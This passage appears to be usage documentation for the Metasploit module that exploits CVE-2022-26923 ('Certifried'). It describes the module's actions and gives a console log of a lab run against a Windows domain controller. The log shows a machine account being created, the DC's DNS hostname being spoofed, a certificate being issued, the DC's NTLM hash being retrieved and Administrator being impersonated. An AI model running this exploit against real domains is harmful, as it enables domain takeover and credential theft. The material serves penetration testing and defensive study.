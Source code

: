 ### REQUEST_CERT

Request a certificate with DNS host name matching the DC, which is stored
locally.

### AUTHENTICATE

Same as `REQUEST_CERT` but also authenticate as the DC account with Kerberos.
This TGT and the NT hash are retrieved.

### PRIVESC (default)

The full privilege escalation attack, which results in a TGS impersonating the
user set in the `IMPERSONATE` option (default is `Administrator`).

## Scenarios

### Windows Server 2019 Domain Controller with ADCS installed
```msf
msf6 auxiliary(admin/dcerpc/cve_2022_26923_certifried) > run verbose=true rhosts=192.168.100.104 username=Test password=123456 domain=mylab.local dc_name=DC02 ca=mylab-DC02-CA
[*] Running module against 192.168.100.104

[*] 192.168.100.104:445 - Requesting the ms-DS-MachineAccountQuota value to see if we can add any computer accounts...
[+] 192.168.100.104:445 - Successfully authenticated to LDAP (192.168.100.104:636)
[*] 192.168.100.104:445 - ms-DS-MachineAccountQuota = 10
[*] 192.168.100.104:445 - Connecting SMB with Test.mylab.local:123456
[*] 192.168.100.104:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 192.168.100.104:445 - Binding to \samr...
[+] 192.168.100.104:445 - Bound to \samr
[*] 192.168.100.104:445 - Using automatically identified domain: MYLAB
[+] 192.168.100.104:445 - Successfully created MYLAB\DESKTOP-E0SYYS6U$
[+] 192.168.100.104:445 -   Password: 4PuZlX57aULpEKXUZisjp227G0W0Rdvi
[+] 192.168.100.104:445 -   SID:      S-1-5-21-419547006-9459028-4093171872-12345
[*] 192.168.100.104:445 - Disconnecting SMB
[+] 192.168.100.104:445 - Successfully authenticated to LDAP (192.168.100.104:636)
[*] 192.168.100.104:445 - Retrieved original DNSHostame dc02.mylab.local for DC02
[*] 192.168.100.104:445 - Attempting to set the DNS hostname for the computer DESKTOP-E0SYYS6U$ to the DNS hostname for the DC: DC02
[*] 192.168.100.104:445 - Retrieved original DNSHostame dc02.mylab.local for DESKTOP-E0SYYS6U$
[+] 192.168.100.104:445 - Successfully changed the DNS hostname
[*] 192.168.100.104:445 - Connecting SMB with DESKTOP-E0SYYS6U$.mylab.local:4PuZlX57aULpEKXUZisjp227G0W0Rdvi
[*] 192.168.100.104:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.100.104:445 - Binding to \cert...
[+] 192.168.100.104:445 - Bound to \cert
[*] 192.168.100.104:445 - Requesting a certificate for user DESKTOP-E0SYYS6U$ - digest algorithm: SHA256 - template: Machine
[+] 192.168.100.104:445 - The requested certificate was issued.
[*] 192.168.100.104:445 - Certificate stored at: /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_windows.ad.cs_852935.pfx
[*] 192.168.100.104:445 - Attempting PKINIT login for dc02$@mylab.local
[+] 192.168.100.104:445 - Successfully authenticated with certificate
[*] 192.168.100.104:445 - 192.168.100.104:445 - TGT MIT Credential Cache ticket saved to /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_mit.kerberos.cca_654380.bin
[*] 192.168.100.104:445 - Trying to retrieve NT hash for dc02$
[+] 192.168.100.104:445 - 192.168.100.104:445 - Received a valid TGS-Response
[+] 192.168.100.104:445 - Found NTLM hash for dc02$: aad3b435b51404eeaad3b435b51404ee:a93d16873c9d49be9b1bce4359dcaa6d
[*] 192.168.100.104:445 - Getting TGS impersonating Administrator@mylab.local (SPN: cifs/DC02.mylab.local)
```